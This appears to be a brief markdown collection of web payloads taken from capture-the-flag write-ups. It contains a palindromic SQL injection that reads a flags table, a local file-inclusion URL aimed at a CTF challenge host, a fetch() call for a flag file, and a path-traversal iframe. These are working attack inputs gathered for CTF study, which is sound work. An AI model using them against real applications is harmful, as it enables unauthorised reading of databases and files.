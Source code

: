 ### Some payloads from writeups :

- OEPS --> The one line encyclopedia of palindromic sentences :   
```js
%'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'%
```

- File inclusion
```js
https://galleria.chal.nbctf.com/gallery?file=/tmp/flag.txt
```

- Get flag
```js
await fetch("flag.txt").then(response=>response.text())
```

- Leak Directory
```js
<iframe src="../../flag.txt" width="1000px" height="1000px"></iframe>
```
